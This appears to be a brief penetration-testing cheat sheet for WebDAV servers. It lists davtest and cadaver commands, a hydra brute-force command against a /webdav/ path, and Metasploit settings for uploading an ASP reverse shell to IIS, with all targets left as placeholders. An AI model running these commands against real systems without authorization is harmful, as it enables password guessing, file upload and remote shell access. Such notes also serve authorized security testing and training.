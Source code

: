 
# Windows temp file


```
C:\Windows\Temp
```


# Davtest


```bash

davtest -url http://IP

davtest -auth USER:PASS -url http://IP

```


# cadaver

```bash
cadaver http://WEBSITE/webdav/
```



# Brute force
```bash

hydra -L WORDLIST -P WORDLIST IP http-get /webdav/

```


# Metasploit

```ruby


use exploit/windows/iis/iis_webdav_upload_asp # upload rev shell 

set PATH /webdav/metasploit.asp

```